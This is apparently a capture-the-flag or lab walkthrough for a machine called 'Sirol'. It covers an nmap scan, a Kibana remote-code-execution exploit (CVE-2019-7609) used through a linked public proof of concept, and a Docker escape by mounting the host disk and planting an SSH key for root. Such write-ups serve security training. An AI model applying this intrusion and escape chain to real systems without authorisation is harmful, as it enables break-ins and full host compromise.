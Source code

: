 # Sirol

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.54
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:18 +08
Nmap scan report for 192.168.219.54
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
3306/tcp  open   mysql
5601/tcp  open   esmagent
24007/tcp open   unknown
```

### Kibana RCE

Port 5601 had a Kibana instance running:

<figure><img src="../../../.gitbook/assets/image (16) (2) (5) (1).png" alt=""><figcaption></figcaption></figure>

Using the Dev Tools Console, we can check the version that is running:

<figure><img src="../../../.gitbook/assets/image (25) (3).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to an RCE exploit:

{% embed url="https://github.com/Cr4ckC4t/cve-2019-7609" %}

Using the above PoC, we can get a shell on the Docker Container:

<figure><img src="../../../.gitbook/assets/image (20) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Mount --> Docker Escape

We can use `fdisk` to check the drives that are available:

```
root@0873e8062560:/tmp# fdisk -l
Disk /dev/sda: 20 GiB, 21474836480 bytes, 41943040 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x16939df4

Device     Boot    Start      End  Sectors Size Id Type
/dev/sda1  *        2048 37750783 37748736  18G 83 Linux
/dev/sda2       37752830 41940991  4188162   2G  5 Extended
/dev/sda5       37752832 41940991  4188160   2G 82 Linux swap / Solaris
```

`/dev/sda1` was likely to be the host machine, and we can try to use `mount` on it:

```
root@0873e8062560:/tmp# mkdir /mnt/tmp
root@0873e8062560:/tmp# mount /dev/sda1 /mnt/tmp
```

The above commands would give us `root` access over the host machine's file system:

<figure><img src="../../../.gitbook/assets/image (17) (7).png" alt=""><figcaption></figcaption></figure>

Using this, we can `echo` our own SSH public key into the `authorized_keys` folder for the `root` user, and then just `ssh` in:

<figure><img src="../../../.gitbook/assets/image (11) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
